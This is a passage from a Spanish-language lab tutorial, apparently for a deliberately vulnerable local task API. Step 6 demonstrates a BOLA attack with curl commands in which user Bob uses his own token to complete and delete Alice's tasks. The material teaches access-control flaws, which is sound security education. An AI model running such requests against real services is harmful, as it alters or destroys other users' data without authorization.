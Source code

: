 #### Bob crea su tarea:
```bash
curl -X POST http://localhost:3000/api/tareas \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $BOB_TOKEN" \
  -d '{
    "titulo": "Bob: Revisar Políticas de Seguridad", 
    "descripcion": "Revisar y actualizar las políticas de seguridad de la empresa"
  }'
```

### Paso 5: Ver Tareas para Obtener los IDs

#### Alice ve sus tareas:
```bash
curl -X GET http://localhost:3000/api/tareas \
  -H "Authorization: Bearer $ALICE_TOKEN" \
  | jq '.'
```

#### Bob ve sus tareas:
```bash
curl -X GET http://localhost:3000/api/tareas \
  -H "Authorization: Bearer $BOB_TOKEN" \
  | jq '.'
```

> **📝 ¡Anota los IDs de las tareas!** Los necesitarás para el ataque.

### Paso 6: 🚨 ¡DEMOSTRAR EL ATAQUE BOLA!

#### Escenario de Ataque: Bob intenta completar la tarea de Alice

```bash
# Bob intenta completar la tarea de Alice (ID de Tarea 1)
curl -X PUT http://localhost:3000/api/tareas/1/completar \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $BOB_TOKEN" \
  -d '{
    "comentario": "¡HACKEADO! Bob completó la tarea de Alice - ¡vulnerabilidad BOLA!"
  }'
```

**⚠️ Resultado Esperado (Vulnerable):** `{"mensaje":"Tarea completada exitosamente"}`

#### Escenario de Ataque: Bob intenta eliminar la tarea de Alice

```bash
# Bob intenta eliminar la tarea restante de Alice (ID de Tarea X)
curl -X DELETE http://localhost:3000/api/tareas/2/borrar \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $BOB_TOKEN" \
  -d '{
    "comentario": "¡HACKEADO! Bob eliminó la tarea de Alice - ¡vulnerabilidad BOLA!"
  }'
```
